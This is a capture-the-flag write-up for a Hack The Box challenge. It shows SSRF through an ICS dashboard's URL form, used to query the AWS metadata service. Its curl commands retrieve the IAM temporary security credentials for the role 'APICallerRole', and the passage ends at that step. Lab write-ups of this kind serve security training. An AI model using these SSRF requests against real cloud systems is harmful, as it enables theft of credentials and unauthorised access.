 **Description:**  
After a relentless week-long effort, a lone Task Force operative successfully breached Volnaya's cloud-based ICS monitoring network, securing us permanent access to their front-end monitoring dashboard and opening a critical window into their industrial infrastructure. Your goal is to infiltrate deeper, locate sensitive data, and enable the Task Force to assume control of their core systems. IP: 3.15.107.79  
**HTB Difficulty Rating:** Very easy  
**How it felt:** WOOOH LIMITLESS PAIN!

# Steps taken
## Initial Recon and discovery:
Unfortunately, Shodan.io didn't have any information on this 3.15.107.79, but IP identified it as an Amazon AWS server. Launched community Burp Suite and browsed to 3.15.107.79 where a dashboard was presented. The Dashboard contained multiple blocks of information and an input button (Check Status).
![Visual ICS Monitoring Dashboard](Dashboard.png)  

When inspecting the response in HTTP History of Burp Suite, the button sends a POST request to https://inyunqef0e.execute-api.us-east-2.amazonaws.com/api/status, leading to https://inyunqef0e.execute-api.us-east-2.amazonaws.com/api/, revealing https://inyunqef0e.execute-api.us-east-2.amazonaws.com/api/private which unfortunately required an authentication token.
![Form](Form.png)   
![Private Endpoint API](Endpoints.png)

Tinkered with https://inyunqef0e.execute-api.us-east-2.amazonaws.com/api/private in curl for a bit and eventually got stuck requiring a security token. Resulted in pivoting back to the Dashboard, and was curious to see what would happen if the URL was switched in the form to https://inyunqef0e.execute-api.us-east-2.amazonaws.com/api/private. The result appeared to do something, combined with the alert (potential hint) previously on the dashboard about a successful SSRF attack led to 2 hours of research on SSRF.
![Modified_Form](Modified_Form.png)   
![Result](Result_Of_MF.png)

## Exploitation
**These next steps could be done using the form, but I found myself using curl instead.**   
**Fun Note:** AWS uses 169.254.169.254 as the metadata-IP where the metadata service can be accessed via http://169.254.169.254/latest/meta-data/ from the E2 instance.
1) Used ```curl -X POST http://3.15.107.79/ -d "url=https://inyunqef0e.execute-api.us-east-2.amazonaws.com/api/status"``` to test curl and see what would happen to the output. The output appeared to be a huge chunk instead of nicely spread out. This led me to further investigate SSRF on http://3.15.107.79/
   
2) Next tried ```curl -X POST http://3.15.107.79/ -d "url=http://169.254.169.254/latest/meta-data/"``` revealing the **iam/** metadata key. The goal was to extract the temporary security credentials from ```iam/security-credentials/role-name```.   
![I am](iam_exposed.png)   
3) Used ```curl -X POST http://3.15.107.79/ -d "url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"``` to get the role-name which was "APICallerRole"
4) To get the temp security credentials used ```curl -X POST http://3.15.107.79/ -d "url=http://169.254.169.254/latest/meta-data/iam/security-credentials/APICallerRole"```
   
